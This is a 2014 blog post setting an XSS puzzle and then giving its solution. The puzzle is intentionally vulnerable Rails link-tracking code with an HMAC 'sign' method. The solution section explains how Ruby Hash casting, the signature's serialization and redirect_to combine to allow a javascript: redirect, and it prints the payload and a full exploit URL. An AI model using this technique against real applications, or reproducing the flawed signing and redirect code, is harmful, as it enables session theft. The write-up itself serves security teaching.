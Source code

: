 ```yaml
---
layout: post
title:  "Puzzle #1"
date:   2014-01-01 18:09:43
author: "Egor Homakov (<a href='https://twitter.com/homakov'>@homakov</a>)"
public: false
---
```

Our task is to track clicked links in the emails. We created trackify method which replaces all URLs in supplied text to proxied ones. To prevent spoofing and open redirects we created a "sign" method. 

What you need to find is an XSS in this functionality. It can require up to 1 click. For updates and tips <a href="https://twitter.com/homakov">check my feed</a>.

Send your solutions along with writups to homakov@gmail.com please. The winner gets <b>0.1 BTC</b>, this is a beta puzzle and future rewards will be better, for sure!

Tip 1: <a href='https://homakov.github.io/#{"url":"https://cobased.com/trackify","autosubmit":false,"target":"_top","data":"sbmbtn=&body=BODY&","method":"POST"}'>POST /trackify</a> with body parameter to invoke trackify method

Tip 2: <a href='https://homakov.blogspot.com.br/2013/11/stealing-user-session-with-open.html'>This trick might help</a>

{%highlight ruby%}
SECRET = 'something'

def sign(t, url)
  dump = [t, url].join('=')
  p dump
  OpenSSL::HMAC.hexdigest('sha1', SECRET, dump)
end

def track
  spl = params[:hash].split('-')
  if spl.count == 2
    redirect_to sign(spl[0], params[:url]) == spl[1] ? params[:url] : '/FAIL'
  end
end

def trackify
  doc = Nokogiri::HTML.fragment(params[:body])
  timestamp = Time.now.to_i

  doc.search('a').each do |node|
    url = (node['href']) 
    if url.starts_with? 'https://'
      node['href'] = "https://cobased.com/track?hash=#{timestamp}-#{sign(timestamp, node['href'])}&url=#{URI.encode(node['href'])}".html_safe
    end
  end
  content_type = 'text/plain'
  render text: doc.to_s, content_type: 'text/plain' #{response: doc.to_s}
end
{%endhighlight%}

# The Solution

There wasn't much competition so we sent 0.1 BTC to <a href="https://twitter.com/joernchen">@joernchen</a> and to <a href="https://twitter.com/titanous">@titanous</a> as they understood the core concept behind this.

The vulnerability here is an interesting fusion of three different tricks I previously wrote about: <a href="https://homakov.blogspot.com.br/2013/11/stealing-user-session-with-open.html">redirect_to params trick</a>, <a href="https://gist.github.com/homakov/9053446">serialization pitfalls</a> (we will have a blog post on this one) and <a href="https://twitter.com/homakov/status/394654129630359552">abusing params casting</a>.

According to Tip #2 we need to pass url[status]=200&url[protocol]=javascript:... FYI this doesn't work anymore and for edge rails we need something more complex (javascript:// scheme + new line trick):

`payload = {"status" => "200","protocol" => "javascript","f"=>"\neval(name)"}`

This is what we need to get in params[:url]. But how do we sign a Hash? Cool thing about modern programming languages is that they love casting!

Python: str({"x":"1"}) # "{'x': '1'}"

PHP: Array("x"=>"1"); # "Array"

Ruby: {"x"=>"1"} # {"x"=>"1"}

So instead of trying to sign a Hash object let's cast it to String and sign the result!

`payload.to_s.gsub('>','&gt;')` (don't forget to replace hash rockets with html entities)

Gives us:

```{"status"=&gt;"200", "protocol"=&gt;"javascript", "f"=&gt;"\neval(name)"}```

OK awesome, let's try to [trackify this body](https://homakov.github.io/#{"url":"https://cobased.com/trackify","autosubmit":false,"target":"_top","data":"sbmbtn=&body=%3Ca%20href%3D'%7B%22status%22%3D%26gt%3B%22200%22%2C%20%22protocol%22%3D%26gt%3B%22javascript%22%2C%20%22f%22%3D%26gt%3B%22%5Cneval(name)%22%7D'%3Elink%3C%2Fa%3E&","method":"POST"})

```<a href='{"status"=&gt;"200", "protocol"=&gt;"javascript", "f"=&gt;"\neval(name)"}'>link</a>```

Oh wait, we forgot about ```url.starts_with? 'https://'```. Now let's look at custom serialization again. The pitfall here is the signature for original

<b>TIMESTAMP</b>  =  <b>```https://={"status"=&gt;"200", "protocol"=&gt;"javascript", "f"=&gt;"\neval(name)"}```</b>

will remain valid even when we put "=https://" in the timestamp parameter and send our params[:url] as a Hash

<b>TIMESTAMP=https://</b>  =  <b>```{"status"=&gt;"200", "protocol"=&gt;"javascript", "f"=&gt;"\neval(name)"}```</b>

So the final exploit looks like https://cobased.com/track?hash=1405177298=https://ok.com/-f45294c86953da8388e2f0f8dff42a14823a4529&url[status]=200&url[protocol]=javascript&url[f]=%0Aeval(name)

Stay tuned for more challenges!
